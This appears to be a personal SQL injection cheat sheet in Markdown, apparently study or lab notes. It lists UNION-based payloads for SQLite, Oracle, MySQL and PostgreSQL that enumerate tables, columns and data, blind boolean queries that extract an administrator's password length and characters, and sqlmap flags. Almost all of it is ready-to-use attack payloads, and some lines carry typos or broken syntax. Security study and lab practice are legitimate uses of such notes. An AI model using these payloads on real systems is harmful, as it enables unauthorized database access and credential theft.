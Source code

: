 - SQLITE 
  - exist vuln: ' UNION SELECT 1,2'
  - find tables: ' UNION SELECT 1,group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT LIKE 'sqlite_%''
  - find columns: ' UNION SELECT 1,group_concat(column_name) FROM table_name '
  - find content: ' UNION SELECT 1,group_concat(column1 || '-' || column2) FROM table_name '
  
- Find version (always UNION)
  - Microsoft, MySQL	SELECT @@version
  - Oracle	SELECT * FROM v$version
  - PostgreSQL	SELECT version()

#### Find data oracle
Oracle DB: '+UNION+SELECT+NULL,NULL+FROM+v$version--
2 Columns strings: '+UNION+SELECT+'abc','abc'+FROM+v$version--
Show tables: '+UNION+SELECT+table_name,+NULL+FROM+all_tables-- 
Show columns: '+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='table_name'
Find content: '+UNION+SELECT+colum1,+column2,+FROM+discovered_table-- 

### blind
- Change SQL Command in the trackinID + test
- Table exists: ' AND (SELECT 'a' FROM users LIMIT 1)='a;
- Size of string: ' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>§1§)='a;==> payload type number to find 1 until n
  - admin' AND length((SELECT password from users where username='admin'))==37-- -
  
- Getting data string per string:
  - SELECT column FROM table_name LIMIT 0,1-- - //
    - LIMIT start,from_total ==> LIMIT 0,1 = first, from total 1 || LIMIT 0,2 start 0 from total 2
  - SUBSTRING((SELECT column FROM table_name LIMIT 0,1)0,1)

#### binary
- like a% = starting with a
- Find DB name: ' UNION SELECT, NULL,NULL,NULL where database() like '%a' 
- Find table name: ' UNION SELECT NULL,NULL,NULL FROM information_schema.tables WHERE **table_schema**='name_db' AND **table_name** like '[]%';--
- find columns 1: ' UNION SELECT NULL,NULL,NULL FROM **information_schema.colums** WHERE **table_name**='name table' AND **column_name** like '[]%';--
- find columns 2: ' UNION SELECT NULL,NULL,[sleep(4)]|NULL FROM **information_schema.colums** WHERE **table_name**='name table' AND **column_name** like '[]%' AND column_name!='found 1';--
- find content: ' UNION SELECT NULL,NULL,NULL FROM **table_name** where **column_1** like 'a%';--

- individual charachter + size
  - ' AND (SELECT 'a' FROM [table]  WHERE [column]='value' AND LENGTH(value)>§1§)='a;==> payload type number to find 1 until n
  -(SQLITE): [known_value]' AND length((SELECT [column] FROM [table] WHERE [column]='value'))==37-- -
 - find substring SQLITE: admin' AND SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)-- -
 
 ##### sqlmap
- sqlmap
  - -u = url
  - --data="id=123&password=123"
  - --level 2  
  - --risk 5
  - --dbms=type of db
  - --technique=???
  - --dumb = output_database
  - --dbms=DATA_BASE_TYPE
  - -r /path/to/file
